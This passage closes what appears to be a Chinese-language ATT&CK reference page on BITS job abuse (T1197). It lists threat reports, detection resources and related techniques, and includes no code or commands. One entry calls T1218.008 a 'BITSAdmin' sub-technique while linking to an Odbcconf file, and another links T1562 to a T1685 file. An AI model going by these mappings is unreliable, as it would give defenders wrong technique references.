- [Microsoft Learn - Component Object Model (COM)](https://msdn.microsoft.com/library/windows/desktop/ms680573.aspx)

### 📰 安全报告（真实攻击）

- [Secureworks - Malware Lingers with BITS](https://www.secureworks.com/blog/malware-lingers-with-bits)
- [Ars Technica - Malware piggybacks on Windows BITS](https://arstechnica.com/information-technology/2007/05/malware-piggybacks-on-windows-background-intelligent-transfer-service/)
- [Symantec - Malware Update with Windows Update](https://www.symantec.com/connect/blogs/malware-update-windows-update)
- [Palo Alto Unit 42 - UBoatRAT Navigates East Asia](https://researchcenter.paloaltonetworks.com/2017/11/unit42-uboatrat-navigates-east-asia/)
- [FireEye - APT41 Global Intrusion Campaign](https://www.fireeye.com/blog/threat-research/2020/03/apt41-initiates-global-intrusion-campaign-using-multiple-exploits.html)
- [FBI - IOCs Associated with Rana Intelligence Computing (APT39)](https://www.iranwatch.org/sites/default/files/public-intelligence-alert.pdf)
- [Mandiant - FIN12 Group Profile (Wizard Spider)](https://www.mandiant.com/sites/default/files/2021-10/fin12-group-profile.pdf)
- [Kaspersky - Ferocious Kitten (MarkiRAT)](https://securelist.com/ferocious-kitten-6-years-of-covert-surveillance-in-iran/102806/)
- [NCC Group - Team9/Bazar Analysis](https://research.nccgroup.com/2020/06/02/in-depth-analysis-of-the-new-team9-malware-family/)
- [Microsoft - PLATINUM Targeted Attacks (JPIN)](https://download.microsoft.com/download/2/2/5/225BFE3E-E1DE-4F5B-A77B-71200928D209/Platinum%20feature%20article%20-%20Targeted%20attacks%20in%20South%20and%20Southeast%20Asia%20April%202016.pdf)

### 🔧 工具与资源（动手试试）

- [MITRE ATT&CK - DET0098 Detection Strategy](https://attack.mitre.org/detectionstrategies/DET0098/) - MITRE官方BITS滥用检测策略
- [Atomic Red Team - T1197 Tests](https://atomicredteam.io/techniques/T1197/) - 可执行的检测测试用例
- [PowerShell BITS Cmdlet Reference](https://learn.microsoft.com/en-us/powershell/module/bitstransfer/) - PowerShell BITS cmdlet官方文档
- [Sysinternals Process Monitor](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) - 监控BITS相关文件与注册表活动
- [Sigma Rule Repository](https://github.com/SigmaHQ/sigma) - 社区维护的检测规则库（含BITS相关规则）

## 相关技术

- **[T1105 入口工具传输](../13-Command-and-Control/T1105-Ingress-Tool-Transfer.md)**：BITS作业是T1105的常见实现方式之一，攻击者通过BITS下载恶意工具和载荷
- **[T1048 替代协议渗漏](../14-Exfiltration/T1048-Exfiltration-Over-Alternative-Protocol.md)**：BITS上传功能可作为T1048的实现途径，将窃取数据通过BITS协议外传
- **[T1070 清除痕迹](./T1070-Indicator-Removal.md)**：BITS任务自包含于数据库，攻击者常配合T1070在传输完成后清理文件与日志痕迹
- **[T1059.001 PowerShell](../04-Execution/T1059-Command-and-Scripting-Interpreter.md)**：PowerShell BITS cmdlet（Start-BitsTransfer等）是T1197的常见实现路径
- **[T1559.001 组件对象模型](../04-Execution/T1559/T1559.001-Component-Object-Model.md)**：BITS通过COM接口暴露功能，攻击者可直接调用COM API而非bitsadmin.exe
- **[T1218.008 BITSAdmin](./T1218/T1218.008-Odbcconf.md)**：系统二进制代理执行战术中的BITSAdmin子技术，与T1197形成互补——T1218.008关注"借用bitsadmin.exe执行命令"，T1197关注"滥用BITS服务本身"
- **[T1547 开机启动或登录自动执行](../05-Persistence/T1547-Boot-or-Logon-Autostart-Execution.md)**：BITS任务的自动恢复特性使其成为开机后自动执行的持久化机制之一
- **[T1562 削弱防御](../08-Defense-Impairment/T1685-Disable-or-Modify-Tools.md)**：攻击者常先削弱EDR再实施BITS滥用，避免BITS回调执行被拦截
